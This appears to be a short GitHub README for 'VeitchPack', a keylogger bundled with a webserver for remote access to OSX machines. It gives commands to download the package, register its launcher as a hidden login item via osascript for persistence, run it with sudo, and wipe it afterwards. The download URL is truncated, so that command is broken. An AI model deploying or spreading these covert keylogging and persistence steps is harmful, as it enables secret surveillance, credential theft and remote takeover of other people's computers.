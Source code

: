 # VeitchPack
A keylogger bundled with a webserver. For remote access goodies on OSX... best done via ssh.
### Download
~~~~
curl -o "VeitchPack.zip" s
unzip VeitchPack.zip
~~~~

### Add to StartUp
~~~~
echo `pwd`/`ls launch.command`
osascript -e 'tell application "System Events" to make login item at end with properties {path:"PATH_HERE", hidden:true}'
~~~~

### Run
~~~~
sudo ./launch.command
~~~~

### Wipe
~~~~
sudo ./wipe.command
~~~~
